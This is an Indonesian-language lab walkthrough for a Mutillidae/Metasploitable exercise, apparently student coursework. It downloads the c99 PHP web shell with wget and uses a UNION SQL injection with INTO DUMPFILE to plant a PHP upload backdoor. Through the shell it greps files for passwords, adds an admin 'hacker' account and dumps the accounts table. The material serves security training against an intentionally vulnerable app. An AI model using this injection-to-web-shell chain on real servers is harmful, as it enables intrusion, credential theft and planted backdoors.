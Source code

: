 ### LESSON 11
1. Pada terminal kali linux ketikan perintah untuk membuat direktori baru (mkdir -p /root/backdoor) lalu masuk ke dalam direktori yang baru dibuat dengan perintah (cd /root/backdoor/) lalu mendownload file yang sudah disedikana dengan perintah(wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar). Lalu check hasilnya dengan melakukan direktori listing dengan perintah (ls -lrt). hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/1.1.png "download file")

2. Lakukan unrar dengan perintah (unrar x stuff.rar). Kemudian gabungkan menjadi satu dengan perintah (cat part1.txt part2.txt part3.txt > c99.php). Lalu buat backup file dengan perintah copy (cp c99.php c99.php.bkp). Lakukan direktori listing dengan perintah (ls -lrt) untuk melihat hasilnya
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/1.2.png "unrar file")

3. Lakukan pemeriksaan header pada file c99.php dengan perintah (head -1 c99.php). Dapat dilihat file tidak mengandung "<?php" sehingga untuk menambhakannya ketikan perintah (sed -i '1 s/^.*$/<?php/g' c99.php). Ketikan perintah (head -1 c99.php) lagi dan baris pertama file c99.php mengandung "<?php". Lalu jalankan perintah (gzip c99.php) untuk mengcompres file. Kemudiann lakukan direktori listing untuk melihat hasilnya (ls -l)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/1.3.png "mengedit .php")

4. Selanjutnya, pindah ke terminal pada metasploitable. Ketikan perintah (sudo mysql) / (mysql -u[nama_user] -p[password]) untuk menjalankan CLI dari mysql. Kemudian ketikan perintah (show databases;) untuk menampilkan seluruh database yang ada. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/2.1.png "mysql cli")

5. Lalu ketikan perintah (use owasp10) untuk mengaktifkan database owasp sebagai database aktif. Lalu perintah (show tables;) untuk menampilkan seluruh tabel yang ada.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/2.2.png "change db")

6. Lalu ketikan perintah (desc accounts;) untuk menampilkan struktur dari tabel accounts.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/2.3.png "desc accounts")
Dapat dilihat bahwa ada 5 kolom pada tabel ini, sehingga untuk melakukan union maka dibutuhkan 5 kolom contohnya adalah sebagai berikut (' union select null,null,null,null,null' -- )

7. Selanjutnya, buka browser pada kali linux dan ketikan perintah URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/3.1.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

8. Pilih owasp10, injection, sqli-extract data, user info
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/3.2.png "open userinfo")

9. Selanjutnya adalah melakukan injeksi berupa form upload ke dalam halaman user info. Hal ini dilakukan dengan pertama mengklik kanan pada tombol "View Account Detail". Pilih inspect element. Lalu ubah text-allign:center menjadi text-allign:left. seperti pada gambar 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/3.3.png "edit button")
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/3.4.png "edit button2")

10. Selanjutnya klik kanan pada kolom input name, pilih inspect element, ganti size:20 menjadi size:550.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/3.5.png "edit inputbox")

11. Ketikan perintah berikut pada kolom name (' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/mutillidae/upload_file.php' -- ). jangan lupa spasi pada akhir perintah setelah tanda (-- ). Perintah ini adalah membuat sebuah form upload di /var/www/mutillidae direktori dengan nama upload_file.php. Jika tidak ada error hasilnya adalah sebagai berikut. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/3.6.png "insert backdoor")

12. Ketikan perintah URL sebagai berikut [IP_metasploitable]/mutillidae/upload_file.php seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.1.png "created backdoor page") 
pada gambar 192.168.56.101/mutillidae/upload_file.php

13. Pilih browse untuk memilih file yang akan diupload. cari file c99.php (jika tidak ada dapat menjalankan perintah [cp c99.php.bkp c99.php] terlebih dahulu)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.2.png "browse file") 
Setelah itu pilih ok dan tekan submit_query.

14. Ketikan perintah URL sebagai berikut [IP_metasploitable]/mutillidae/c99.php seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.3.png "open c99.php") 
pada gambar 192.168.56.101/mutillidae/c99.php

15. Pilih sec pada navigation bar. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.3a.png "sec button") 

16. Ketikan perintah (pwd) pada command execute di bagian kiri, untuk melihat working directory. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.4.png "check pwd"). Lalu klik execute 
 
17. Hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.5.png "hasil pwd") 

18. Ketikan perintah (find /var/www/mutillidae -name "*.php" | xargs grep -i "password" | grep "=") untuk mencari kata password pada seluruh isi file dan menampilkannya.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.6.png "find password") 

19. Hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.7.png "hasil find password") 

20. Pilih SQL pada navigation bar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.3a.png "sql button") 

21. Pada kolom username isikan nama username database (dalam contoh ini root), password (adalah blank) dan database name adalah owasp10.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.8.png "enter db")

22. Hasilnya adalah seluruh tabel pada owasp10 ter-list
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.9.png "list tabel")

23. Pilih tabel accounts sehingga hasilnya seperti ini
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.10.png "enter accounts") 
 
24. Buat sebuah record baru dengan cid:17 (bisa di kosongkan), name:hacker, password:hacker, mysignature:hello_hacker, is_admin:true.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.11.png "insert new") 

25. Hasilnya adalah
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.12.png "hasil insert") 

26. Pilih dump seprti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.11a.png "dump button") 

27. Isikan nama database dengan owasp10, only tables: accounts, file:/dump_owasp_account.sql, dan download maupun save to file tercentang.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.13.png "config dump") 

28. Lalu klik dump. Hasilnya adalah
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_11/4.14.png "download dump file") Lalu klik save file. 

